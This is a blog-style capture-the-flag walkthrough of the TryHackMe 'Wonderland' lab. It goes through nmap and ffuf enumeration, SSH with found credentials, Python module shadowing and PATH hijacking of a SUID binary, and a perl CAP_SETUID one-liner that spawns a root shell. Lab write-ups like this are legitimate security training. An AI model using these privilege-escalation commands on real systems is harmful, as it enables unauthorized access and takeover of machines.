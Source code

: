 ```yaml
---
layout: post
title: thm-wonderland
description: TryHackMe Medium Machine
category:
tags:
date: 2025-07-19 15:58 +0100
---
```

# Wonderland

> Overall it was a fun box. Pretty basic enumeration and exploitation techniques we just have to keep up with the a bit long attack vector. Before diving into the walk-through here's a summary of some of the techniques we'll cover shortly:
1. The enumeration didn't have anything complicated: <mark style="color:blue;">basic nmap scan, few fuzzing</mark> and we find some <mark style="color:blue;">cleartext credentials</mark> that'll ssh us into the machine as a regular user. The user flag was in a very strange directory (as the comments stated as well)
2. To get to root, we'll be doing some <mark style="color:blue;">lateral movement</mark> as well. from the foothold as Alice we'll exploit a basic <mark style="color:blue;">Module Shadowing</mark> to gain access to rabbit.
3. From there, we'll find a binary with a <mark style="color:blue;">SUID bit</mark> that we'll use to gain access to hatter account through a <mark style="color:blue;">PATH Hijacking</mark>.
 4. Finally, for root, back to the basics after some manual inspection, linpeas.sh (after <mark style="color:blue;">File transferring</mark> it to the target) shows <mark style="color:blue;">CAP\_SETUID</mark> available for the Perl interpreter!
Pwned successfully!
{: .prompt-tip}

## Enumeration

```bash
sudo sh -c 'echo "<IP> wonderland.thm" >> /etc/hosts'
```

### Nmap

```bash
nmap wonderland.thm -sV -sC -Pn -T4 -oN def-scripts-scan -vv

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDe20sKMgKSMTnyRTmZhXPxn+xLggGUemXZLJDkaGAkZSMgwM3taNTc8OaEku7BvbOkqoIya4ZI8vLuNdMnESFfB22kMWfkoB0zKCSWzaiOjvdMBw559UkLCZ3bgwDY2RudNYq5YEwtqQMFgeRCC1/rO4h4Hl0YjLJufYOoIbK0EPaClcDPYjp+E1xpbn3kqKMhyWDvfZ2ltU1Et2MkhmtJ6TH2HA+eFdyMEQ5SqX6aASSXM7OoUHwJJmptyr2aNeUXiytv7uwWHkIqk3vVrZBXsyjW4ebxC3v0/Oqd73UWd5epuNbYbBNls06YZDVI8wyZ0eYGKwjtogg5+h82rnWN
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHH2gIouNdIhId0iND9UFQByJZcff2CXQ5Esgx1L96L50cYaArAW3A3YP3VDg4tePrpavcPJC2IDonroSEeGj6M=
|   256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAsWAdr9g04J7Q8aeiWYg03WjPqGVS6aNf/LF+/hMyKh
80/tcp open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![Nmap Output](/assets/img/wonderland/wonderland-1.png)

Okay then let's follow the white rabbit. To fuzzing now. Normally at this point we like to leave a UDP scan to run in the background or a full ports TCP scan and proceed further in our enumeration because nmap only scans the first top 1000 ports. We could possibly miss something if we only check those ports. For this machine the scan lead to nothing so you should step over that part and think about it for the next machines :smile:.

### Fuzzing

#### Subdomains/Vhosts

The scan for subdomains/Vhosts lead to nothing for this box. So we move on. (For the command below, you should consider a filter of your own with ffuf because we'll get lots of irrelevant stuff)

```bash
ffuf -w <wordlist.txt>:FUZZ -u http://wonderland.thm -c -H 'Host: FUZZ.wonderland.thm'
```

#### Directories

```bash
ffuf -w <wordlist.txt>:FUZZ -u http://wonderland.thm/FUZZ -c -v 
```

The command above will return the following directories:&#x20;



The `/img` directory was also clear to find when inspecting the home page.


Containing the following files:


Looking for fuzzing the other sub directories we find the following pattern:


Intuitively, checking the source code of every directory we find, we stumble upon what seems to be Clear-text Credentials of user Alice:


## Foothold/user flag - Alice

Since for now we didn't find any login portal, ssh is the only way we could possibly gain a foothold. Which was successful!


Okay root flag file in the home directory? Strange. How to deal with strange? Be even more strange:



## Lateral Movement

### 2nd User - Rabbit

```bash
find / -perm -4000 2>/dev/null
```


```bash
find / -perm -2000 2>/dev/null
```


Nothing in here.

At this point, we normally look for kernel exploit or a critical kernel vulnerability (Which is also done right after gaining foothold at the machine.) which also lead to nothing in this machine.

The command below tells us what binaries we can run as sudoers (if misconfigured):

```bash
$sudo -l
```


Okay, if we find a way to exploit the `walrus*.py` file and combine it with sudo command as `rabbit` user, we could get a shell as `rabbit`. Let's enumerate further.

Running the python script and checking the source code, we found nothing BUT thee first line:


This will lead to <mark style="color:red;">module shadowing</mark>, which is exploiting the way python imports modules, tricking the interpreter to import a local version of the random module. This is due to the random module is a `.py` file not a precompiled binary(built-in). Here's some resources to dive more into that vulnerability:



```bash
echo "import os;os.system('/bin/sh')" > random.py
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```


### 3rd User - Hatter

Intuitively checking the rabbit's home directory:


Alright, no `strings` command, no `binwalk`, no `ltrace`, no `strace`. we gotta transfer this file to our local machine.

#### File Transfer

This can be done using many methods. We could use `scp` tool which is based on ssh, simple base64 encoding, or using a `python HTTP server`. BUT, in our case, the most efficient and quick way is setting up a `python HTTP server` and download the file with curl/wget. This is because we have access to the python interpreter and in order to use scp, we will need to add an ssh key for user rabbit.

Here's how we're going to do it:

```bash
compromized-host$cd /home/rabbit
compromized-host$python3 -m http.server
```

```bash
attacking-machine$wget http://target-ip:8000/teaParty
```


Okay, no need to debug or anything, we got something interesting:

```bash
/bin/echo -n 'Probably by ' && date --date='next hour' -R
```

Here's why this line of code might be vulnerable: the one-liner  uses non relative path for the date command. So if thee system relies of the PATH variable to execute the command, we might alter  the PATH variable and point it to a malicious binary of our choice, and since teaParty has SUID bit set, we can move forward to the next user. Here we go:

```bash
compromized-host$echo '#! /bin/bash\n/bin/sh' > /tmp/date
# You can choose the home directory not the /tmp.  
compromized-host$
compromized-host$chmod +x /tmp/date
compromized-host$export PATH=/tmp:$PATH
compromized-host$./teaParty
```


Now with the cleartext credentials on the home directory we ssh into the server with hatter user.

## Privilege Escalation

After getting the [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) script on the machine using one of the methods we [mentioned](wonderland.md#file-transfer). We get interesting vulnerable stuff:


> Traditionally, a Linux process is either privileged (running as root) or unprivileged. Privileged processes are not subject to kernel permission checks, and thus have full power over a system. A capability is a distinct and independent privilege that can be used by a process to bypass certain permission checks. Capabilities were first introduced in Linux 2.2, and several more were added in later versions. They are usually set on executable files and are automatically granted to the process when a file with a capability is executed. Capabilities essentially divide the power of the root user into separate privileges, which improves security by limiting the access an attacker would gain by exploiting or abusing a service

So, i simple perl script that sets the hatter user ID to 0 will bypass all the privileges checking since the process will have that specific capability. Here's a script i found on [GTFObins](https://gtfobins.github.io/gtfobins/perl/).

```bash
/usr/bin/perl5.26.1 -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

